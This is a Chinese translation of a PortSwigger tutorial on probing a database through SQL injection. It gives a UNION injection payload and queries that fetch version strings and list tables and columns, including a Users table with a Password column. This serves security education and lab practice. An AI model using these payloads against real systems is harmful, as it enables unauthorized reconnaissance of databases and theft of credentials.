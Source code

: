 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检查数据库

当利用 [SQL 注入](https://portswigger.net/web-security/sql-injection)漏洞时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

### 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。我们通常需要在多种查询方式中尝试，找出可以让我们确定数据库软件类型和版本的那一种方法。

主流数据库提供如下方式来确定数据库版本：

```text
Database type      |   Query
----------------------------------------
Microsoft, MySQL   |   SELECT @@version
Oracle             |   SELECT * FROM v$version
PostgreSQL     |   SELECT version()
```

例如，可以在 UNION 注入攻击中利用如下 payload:

```text
' UNION SELECT @@version--
```

我们可能得到如下结果，从而确定数据库类型为 Microsoft SQL Server ，版本信息为：

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

{% hint style="warning" %}
**实验：**[SQL注入攻击，在Oracle中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
{% endhint %}

{% hint style="warning" %}
**实验：**[SQL注入攻击，在MySQL和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
{% endhint %}

### 列出数据库的内容

大多数数据类型，都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

我们可以通过查询 information\_schema.tables 列出数据库的表：

```text
SELECT * FROM information_schema.tables
```

返回如下：

```text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些返回结果表明，库中有三个表，分别是 Products, Users, Feedback。

我们可以通过查询 information\_schema.columns 列出特定表中的列：

```text
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回如下：

```text
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

{% hint style="warning" %}
**实验：**[SQL注入攻击，在非Oracle数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
{% endhint %}

### 等效于Oracle中的information schema

在 Oracle 中，我们可以通过稍有差异的查询语句获取同样的信息。

我们可以通过查询 all\_tables 列出表：

```text
SELECT * FROM all_tables
```

可以通过查询 all\_tab\_columns 列出列：

```text
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

{% hint style="warning" %}
实验：[SQL注入攻击，在Oracle中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
{% endhint %}

